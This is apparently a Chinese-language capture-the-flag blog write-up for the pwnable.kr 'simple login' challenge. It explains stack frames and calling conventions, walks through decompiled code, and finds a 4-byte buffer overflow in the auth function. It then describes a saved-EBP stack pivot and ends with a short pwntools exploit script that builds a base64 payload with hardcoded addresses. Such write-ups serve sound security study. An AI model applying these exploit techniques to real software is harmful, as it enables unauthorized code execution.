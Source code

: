 ```yaml
---
layout: post
title: pwnable.kr - simple login
date: 2023-03-22 11:55 +0800
categories: [ctf, pwn]
tag: [pwnable.kr, stack]
---
```

# 栈的相关知识
## 栈帧指针寄存器 
> 为了访问函数局部变量，必须能定位每个变量。局部变量相对于堆栈指针ESP的位置在进入函数时就已确定，理论上变量可用ESP加偏移量来引用，但ESP会在函数执行期随变量的压栈和出栈而变动。尽管某些情况下编译器能跟踪栈中的变量操作以修正偏移量，但要引入可观的管理开销。而且在有些机器上(如Intel处理器)，用ESP加偏移量来访问一个变量需要多条指令才能实现。
{: .prompt-tip }
> 因此，许多编译器使用帧指针寄存器(FP,Frame Pointer)记录栈帧基地址。局部变量和函数参数都可通过帧指针引用，因为它们到FP的距离不会受到压栈和出栈操作的影响。有些资料将帧指针称作局部基指针(LB, local base pointer)。
{: .prompt-info }
> 在Intel CPU中，寄存器BP(EBP)用作帧指针。在Motorola CPU中，除A7(堆栈指针SP)外的任何地址寄存器都可用作FP。当堆栈向下(低地址)增长时，以FP地址为基准，函数参数的偏移量是正值，而局部变量的偏移量是负值。
{: .prompt-tip }

## 调用约定
### 主调函数保存寄存器(caller-saved registers)
寄存器：`eax`,`edx`,`ecx`

约定：若主调函数希望保持这些寄存器的值，则必须在调用前显式地将其保存在栈中，此时被调函数可以覆盖这些寄存器，而不会破坏主调函数所需的数据

### 被调函数保存寄存器(callee-saved registers)
寄存器：`ebx`,`esi`,`edi`

约定：被调函数在覆盖这些寄存器的值时，必须先将寄存器原值压入栈中保存起来，并在函数返回前从栈中恢复其原值，因为主调函数可能也在使用这些寄存器。此外，被调函数必须保持寄存器`ebp`和`esp`，并在函数返回后将其恢复到调用前的值，亦即必须恢复主调函数的栈帧。

## 栈帧
* 每个未完成运行的函数占用一个独立的连续区域，称作栈帧(Stack Frame)
* 栈帧是栈的逻辑片段
* 当调用函数时逻辑栈帧被压入栈，当函数返回时逻辑栈帧被从栈中弹出
* 栈帧存放着函数参数，局部变量及恢复前一栈帧所需要的数据等
* 栈帧的边界

  * 栈帧基地址指针(EBP),指向当前栈帧底部(高地址),在当前栈帧内位置固定
  * 栈帧栈顶指针(ESP),指向当前栈帧顶部(低地址)，当程序执行时ESP会随着数据的入栈和出栈而移动。因此函数中对大部分数据的访问都基于EBP进行。

# 题目详解
## checksec
```bash
➜  work checksec login
[*] '/root/work/login'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 寻找漏洞点
### main函数
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int plaintext; // [esp+18h] [ebp-28h] BYREF
  char buf[30]; // [esp+1Eh] [ebp-22h] BYREF
  unsigned int len; // [esp+3Ch] [ebp-4h]

  memset(buf, 0, sizeof(buf));
  setvbuf(stderr_0, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  printf_0("Authenticate : ");
  _isoc99_scanf("%30s", buf);
  memset(&input, 0, 0xCu);
  plaintext = 0;
  len = Base64Decode(buf, &plaintext);
  if ( len > 0xC )
  {
    puts("Wrong Length");
  }
  else
  {
    memcpy(&input, plaintext, len);
    if ( auth(len) == 1 )
      correct();
  }
  return 0;
}
```
### auth函数
```c
_BOOL4 __cdecl auth(unsigned int len)
{
  char v2[8]; // [esp+14h] [ebp-14h] BYREF
  char *s2; // [esp+1Ch] [ebp-Ch]
  char buf[8]; // [esp+20h] [ebp-8h] BYREF

  memcpy(buf, input, len);
  s2 = (char *)calc_md5((int)v2, 12);
  printf_0("hash : %s\n");
  return strcmp("f87cd601aa7fedca99018a8be88eda34", s2) == 0;
}
```
注意到这里的`memcpy`操作，input的长度最大为16，len最大为12，buf只有8个字节，因此可以制造4个字节的栈溢出

接下来我们来看清楚栈布局。

```
+----------+-----------+------+
| addr     | name      | size |
+----------+-----------+------+
| ebp-0x28 |           |      |
| ebp-0x14 |           | 8    |
| ebp-0x0c | md5       | 4    |
| ebp-0x08 | buf       | 8    |
| ebp      | saved ebp | 4    |
| ebp+0x04 | retaddr   | 4    |
| ebp+0x08 | arg0      | 4    |
+----------+-----------+------+
```

因此我们可以选择覆盖`saved ebp`，这样的话就修改了main函数的ebp，将栈的基地址修改了，该技术也被称作栈迁移技术。
现在我们拥有将栈迁移到任意位置的能力，我们可以继续利用main函数结尾中的如下代码片段：
```
leave <==> mov esp, ebp
           pop ebp

ret   <==> pop eip
```

我们可控制的栈:
```
+---------+-------------+
| addr    | name        |
+---------+-------------+
| buf + 0 | AAAA        |  pop ebp
| buf + 4 | system addr |  pop eip
| buf + 8 | buf addr    |
+---------+-------------+
```
这样的话就可以控制PC跳转到system函数了，exp如下
```python
import base64
from pwn import *
hijacked_addr = 0x08049284
bss_input = 0x0811EB40
payload = base64.b64encode(b'ABCD' + p32(hijacked_addr) + p32(bss_input) ).decode()
print(payload)
```


[1][栈帧结构](https://www.cnblogs.com/clover-toeic/p/3755401.html)